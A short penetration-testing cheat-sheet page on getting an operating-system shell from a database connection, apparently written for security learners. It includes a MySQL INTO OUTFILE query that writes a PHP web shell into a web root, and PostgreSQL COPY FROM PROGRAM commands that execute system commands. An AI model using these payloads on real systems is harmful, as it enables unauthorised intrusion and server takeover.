 ```yaml
---
description: You have a connection to a database. How can you get a shell from that?
---
```


# Get a Shell From DB Connection

### Write a Web Shell

Prerequisites:

* A web server that supports PHP or ASP is installed on the same server
* The database user has write permissions in a directory from where PHP or ASP can be executed through the web server

Many databases can write files to the local system. So if possible, write a web shell to the web server.

Mysql example:

```
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```

### Databases Support Command Execution

Some databases support command execution, so you can just use that. Usually you need the highest database privileges to do it, though.

Prerequisite:

* Database system that supports command execution
* Usually requires the highest privileges that can be gained in the database (not a normal db user)

**Postgresql example** (requires login as `postgres` user)&#x20;

First, the attacker needs to create a table to hold the system command's output.

```
> CREATE TABLE cmd_exec(cmd_output text);
```

Then, they can run the system command via the COPY TO/FROM PROGRAM function.

```
> COPY cmd_exec FROM PROGRAM 'id';
```

Run longer commands like this:

```
> COPY cmd_exec FROM PROGRAM 'touch /tmp/test';
```

